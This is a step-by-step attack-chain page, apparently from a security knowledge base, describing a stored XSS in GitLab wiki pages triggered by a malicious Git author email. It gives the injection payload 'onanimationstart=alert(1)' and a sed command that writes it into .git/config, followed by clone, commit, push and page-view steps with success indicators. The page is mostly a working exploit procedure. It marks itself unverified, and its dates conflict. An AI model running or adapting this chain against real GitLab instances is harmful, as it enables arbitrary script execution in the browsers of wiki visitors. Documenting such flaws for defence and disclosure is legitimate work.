

---
tags:
  - xss
  - stored-xss
  - gitlab
  - wiki
  - git
  - javascript
type: attack_chain
tools:
  - '[[tools/Git]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/git-clone-gitlab-wiki]]'
  - '[[commands/edit-git-config-email]]'
  - '[[commands/echo-append-to-wiki-file]]'
  - '[[commands/git-add-all]]'
  - '[[commands/git-commit-message]]'
  - '[[commands/git-push-origin-main]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Clone-GitLab-Wiki-Repository]]'
  - '[[procedures/Inject-Malicious-Email-into-Git-Config]]'
  - '[[procedures/Modify-Wiki-Page-Content]]'
  - '[[procedures/Commit-and-Push-Malicious-Changes-to-GitLab-Wiki]]'
  - '[[procedures/View-Wiki-Page-to-Trigger-Stored-XSS]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in GitLab wiki
  pages by injecting malicious HTML attributes through the Git commit author's
  email, leading to arbitrary JavaScript execution when victims view the page.
skill_level: intermediate
impact_level: high
id: 41368943-c8c3-4de8-a6f6-256a03aee9b7
created_at: '2025-12-13T23:52:55.070Z'
updated_at: '2025-12-13T23:52:55.070Z'
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
---

# Stored XSS in GitLab Wiki Pages via Malicious Git Author Email

Multi-stage attack chain demonstrating a complete attack workflow exploiting unsanitized author_url in GitLab wiki rendering.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Git]]

### Target Environment

- GitLab instance (self-hosted or SaaS) with wiki feature enabled
- Access to a project wiki repository (e.g., via SSH or HTTPS)
- Ruby on Rails backend with Haml templating (default for GitLab)

### Initial Access Requirements

- Valid GitLab account with push access to the target project's wiki
- SSH key configured for Git access (git@gl.local:...)
- Local machine with Git installed

## Detailed Attack Procedures

### Step 1: Clone Wiki Repository
procedure: [[procedures/Clone-GitLab-Wiki-Repository]]

**Objective**: Obtain a local copy of the target GitLab wiki repository to prepare for modifications.

**Instructions**: Use [[commands/git-clone-gitlab-wiki]] to clone the wiki repo:

```bash
git clone git@gl.local:root/test.wiki.git
```

Navigate into the cloned directory with `cd test.wiki`.

**Expected Output**: Local directory with wiki Markdown files cloned.

**Success Indicators**:
- Repository cloned without errors
- .git directory present in the local folder

### Step 2: Inject Malicious Email into Git Config
procedure: [[procedures/Inject-Malicious-Email-into-Git-Config]]

**Objective**: Modify the local Git configuration to set a crafted author email that injects malicious HTML attributes for XSS.

**Instructions**: Edit the .git/config file to set the user email to a payload like `anyname@evil.com" onanimationstart=alert(1) //` which breaks out of the <a> tag attributes in the wiki rendering template.

Use [[commands/edit-git-config-email]] or manually edit with a text editor:

```bash
sed -i '/\[user\]/,/^$/ { /email =/c\\temail = anyname@evil.com\" onanimationstart=alert(1) //' .git/config
```

Verify with `git config --local user.email`.

**Expected Output**: Git config updated with the malicious email payload.

**Success Indicators**:
- `git config --local user.email` shows the injected payload
- No syntax errors in config file

### Step 3: Modify Wiki Page Content
procedure: [[procedures/Modify-Wiki-Page-Content]]

**Objective**: Create or alter a wiki page file to trigger a commit using the malicious Git config.

**Instructions**: Append simple content to an existing or new Markdown file using [[commands/echo-append-to-wiki-file]]:

```bash
echo "Hi" >> home.md
```

This ensures a commit occurs with the tainted author email.

**Expected Output**: home.md file updated with the appended content.

**Success Indicators**:
- File modified successfully
- Content visible with `cat home.md`

### Step 4: Commit and Push Malicious Changes
procedure: [[procedures/Commit-and-Push-Malicious-Changes-to-GitLab-Wiki]]

**Objective**: Stage, commit, and push the changes to the GitLab server, embedding the XSS payload in commit metadata.

**Instructions**: Stage all changes with [[commands/git-add-all]]:

```bash
git add .
```

Commit with a message using [[commands/git-commit-message]]:

```bash
git commit -m "Update home page"
```

Push to the remote using [[commands/git-push-origin-main]]:

```bash
git push origin main
```

**Expected Output**: Changes pushed successfully, commit created with malicious author email.

**Success Indicators**:
- Push completes without errors
- Wiki page updates visible in GitLab UI

### Step 5: View Wiki Page to Trigger Stored XSS
procedure: [[procedures/View-Wiki-Page-to-Trigger-Stored-XSS]]

**Objective**: Access the rendered wiki page in a browser to execute the injected JavaScript payload.

**Instructions**: Open the wiki page URL in a web browser, e.g., http://gl.local/root/test/-/wikis/home.

No command needed; use any browser to navigate to the page.

**Expected Output**: JavaScript alert (or payload) triggers on page load due to unsanitized author_url in show.html.haml.

**Success Indicators**:
- Alert box or console error indicating XSS execution
- Inspect element shows injected attributes in the author <a> tag

## Attack Chain Summary

### Key Achievements

1. Successfully cloned and modified a GitLab wiki repository
2. Injected XSS payload via Git commit metadata without direct input sanitization
3. Achieved arbitrary JavaScript execution on victim browsers viewing the wiki

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01*
